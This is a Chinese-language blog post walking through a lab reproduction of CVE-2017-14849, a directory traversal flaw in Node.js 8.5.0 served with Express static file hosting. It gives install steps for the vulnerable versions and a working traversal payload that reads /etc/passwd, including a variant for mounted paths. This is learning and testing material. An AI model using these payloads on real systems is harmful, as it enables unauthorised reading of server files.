

# Node.js CVE-2017-14849 复现（详细步骤） - 水泡泡 - 博客园

> 原文：[`www.cnblogs.com/r00tuser/p/7805005.html`](https://www.cnblogs.com/r00tuser/p/7805005.html)

**0x00 前言**

早上看 Sec-news 安全文摘的时候，发现腾讯安全应急响应中心发表了一篇文章，Node.js CVE-2017-14849 漏洞分析（https://security.tencent.com/index.php/blog/msg/121），然后想着复现，学习学习，就有了这篇文章。

**0x01 漏洞简介**

CVE(http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14849)上面的描述是这样的:

> Node.js 8.5.0 before 8.6.0 allows remote attackers to access unintended files, because a change to ".." handling was incompatible with the pathname validation used by unspecified community modules.

换成我们看的懂的意思就是 node.js 8.5.0 到 8.6.0 之间的版本会造成目录穿越漏洞，读取任意文件，而漏洞的原因是因为对”..”的处理和另外的模块不兼容。

打个比喻就是有一个人开发这个模块，另外的一个人开发另外个模块，大家对于这个**东西**的处理不一样，从而导致出现了漏洞。而这里的模块就是 node.js 和 express。 

影响版本：

**Node.js 8.5.0 + Express 3.19.0-3.21.2**
**Node.js 8.5.0 + Express 4.11.0-4.15.5**

**0x02 node.js 是什么**

Node.js® 是一个基于 Chrome V8 引擎的 JavaScript 运行时。 Node.js 使用高效、轻量级的事件驱动、非阻塞 I/O 模型。它的包生态系统，npm，是目前世界上最大的开源库生态系统。（抄从官网）

**0x03 express 是什么**

Express 是基于 Node.js 平台，快速、开放、极简的 web 开发框架。（同样抄从官网）

**0x04 如何复现**

下面采用腾讯云开发者实验室搭建环境进行快速复现。

复现准备：

0\. 腾讯云开发者实验室的云主机一台 （我这里用的是《基于 Ubuntu 搭建微信小程序服务》的实验主机 ubuntu 16.04 64 位）

1\. node.js 8.5.0 （https://nodejs.org/download/release/v8.5.0/）

2\. express-4.15.5 (https://github.com/expressjs/express/releases)

3\. burpsuite

**Step 1 安装 node.js 8.5.0**

下载 node.js 8.5.0 安装包

```
wget https://nodejs.org/download/release/v8.5.0/node-v8.5.0-linux-x64.tar.gz
```

解压安装包

```
tar -zxvf node-v8.5.0-linux-x64.tar.gz
```

移到通用软件安装目录/opt

```
mv node-v8.5.0-linux-x64 /opt/
```

安装 npm 和 node 命令到系统命令

```
sudo ln -s /opt/node-v8.5.0-linux-x64 /bin/node /usr/local/bin/node 
sudo ln -s /opt/node-v8.5.0-linux-x64 /bin/npm /usr/local/bin/npm
```

验证一下:

```
node -v
```

输出版本号则表示配置成功

**Step2 安装 express-4.15.5**

下载 express-4.15.5

```
wget https://github.com/expressjs/express/archive/4.15.5.tar.gz
```

解压压缩包

```
tar -zxvf  4.15.5.tar.gz
```

进入 express 目录下，安装 express

```
cd express-4.15.5 && npm install 
```

进入到 expresss-4.15.5/examples/static-files 目录里

```
node index.js
```

**Step 3 发送 payload 验证**

Payload: /../../../a/../../../../etc/passwd



**0x05 漏洞原理分析**

为什么 payload 会是这样的呢？请参考腾讯应急响应中心的那篇文章（https://security.tencent.com/index.php/blog/msg/121），写的很言简意赅。

（还不是因为自己菜，分析不出。。。。）

**注意**：**该漏洞是建立在文件夹通过`express.static` 来托管的情况下，因为在这种情况下才会使用 normalize 函数进行 path 标准化。（发现来源于 p 神的分析）**

比如代码这样写：

```
app.use(express.static(path.join(__dirname, 'static')));
```

那么 payload 应该是

```
/../../../a/../../../../etc/passwd
```

但代码如果是这样写的话：

```
app.use('/static',express.static(path.join(__dirname, 'static')));
```

那么 payload 应该为：

```
/static/../../../a/../../../../etc/passwd
```

**0x06 后记**

复现很简单，但分析原理很难。至少我现在还没弄明白。等我弄明白了，再写写怎么分析与跟踪吧。

其实这里有一个挺有意思的点，那就是一些重大漏洞的追踪问题，关于这个漏洞官方早在九月份就已经发布了说明，而这个问题是在最近才得到重视，很明显就算是腾讯也没有第一时间去跟踪 CVE 的更新列表。

而在腾讯发了这篇文章之后，P 神把复现环境给弄到了 vulhub（https://github.com/vulhub/vulhub/tree/master/node/CVE-2017-14849），速度之快令人惊奇。然后再代码审计里面发了，在微博里面发了。再接着整个安全圈其实都知道了。

然后这里我们得出了一个结论，如果想要得到第一手漏洞预警与学习，应该时刻关注着 CVE 列表，努力做第一个吃螃蟹的人。